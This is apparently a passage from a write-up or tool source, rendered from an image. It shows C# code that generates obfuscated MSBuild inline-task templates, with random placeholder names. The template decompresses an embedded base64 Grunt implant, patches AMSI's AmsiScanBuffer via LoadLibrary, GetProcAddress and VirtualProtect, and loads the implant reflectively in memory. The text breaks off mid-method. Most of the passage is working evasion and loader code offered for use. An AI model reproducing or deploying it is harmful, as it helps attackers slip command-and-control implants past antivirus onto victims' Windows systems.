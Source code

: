```cs
    this.DiskCode = DiskCode.Replace("{{BYTE_ARRAY}}", this.random_var_byteArray);
    this.DiskCode = DiskCode.Replace("{{READ}}", this.random_var_read);
    this.DiskCode = DiskCode.Replace("{{LIB}}", this.random_var_lib);
    this.DiskCode = DiskCode.Replace("{{AMSI_DLL_0}}", this.random_var_amsi_dll[0]);
    this.DiskCode = DiskCode.Replace("{{AMSI_DLL_1}}", this.random_var_amsi_dll[1]);
    this.DiskCode = DiskCode.Replace("{{AMSI_SCAN_BUFF_0}}", this.random_var_amsiScanBuffer[0]);
    this.DiskCode = DiskCode.Replace("{{AMSI_SCAN_BUFF_1}}", this.random_var_amsiScanBuffer[1]);
    this.DiskCode = DiskCode.Replace("{{AMSI_SCAN_BUFF_2}}", this.random_var_amsiScanBuffer[2]);
    this.DiskCode = DiskCode.Replace("{{ASSEMBLY_BUFFER}}", this.random_var_assemblyBuffer);

    ...
```

**And here's the updated inline task - including the bypass and obfuscation**
```xml
        private static string XMLTemplate =
@"<Project ToolsVersion=""4.0"" xmlns=""http://schemas.microsoft.com/developer/msbuild/2003"">
  <Target Name=""{{TARGET_NAME}}"">
    <{{TASK_NAME}}>
    </{{TASK_NAME}}>
  </Target>
  <UsingTask TaskName=""{{TASK_NAME}}"" TaskFactory=""CodeTaskFactory"" AssemblyFile=""C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"" >
    <ParameterGroup/>
    <Task>
      <Code Type=""Class"" Language=""cs"">
        <![CDATA[
        using System.Collections;
        using System.Collections.Generic;
        using System.Text;
        using System.Linq;
        using System.IO;
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class {{TASK_NAME}} :  Task, ITask
        { 
            [DllImport(""kernel32"")]
			public static extern IntPtr GetProcAddress(IntPtr hmod, string pn);
			[DllImport(""kernel32"")]
			public static extern IntPtr LoadLibrary(string n);
			[DllImport(""kernel32"")]
            public static extern bool VirtualProtect(IntPtr lpaddr, UIntPtr dws, uint flnp, out uint lpflop);
            public override bool Execute()
            {
                var {{MEMORY_STREAM}} = new System.IO.MemoryStream();
                var {{DEFLATE_STREAM}} = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(""{{GRUNT_IL_BYTE_STRING}}"")), System.IO.Compression.CompressionMode.Decompress);
                var {{BYTE_ARRAY}} = new byte[1024];
                var {{READ}} = {{DEFLATE_STREAM}}.Read({{BYTE_ARRAY}}, 0, 1024);
            
                while ({{READ}} > 0)
                {
                    {{MEMORY_STREAM}}.Write({{BYTE_ARRAY}}, 0, {{READ}});
                    {{READ}} = {{DEFLATE_STREAM}}.Read({{BYTE_ARRAY}}, 0, 1024);
                }
			
                Bypass();
                var {{ASSEMBLY_BUFFER}} = System.Reflection.Assembly.Load({{MEMORY_STREAM}}.ToArray());
                var o = new object[] { new string[]{ } };
```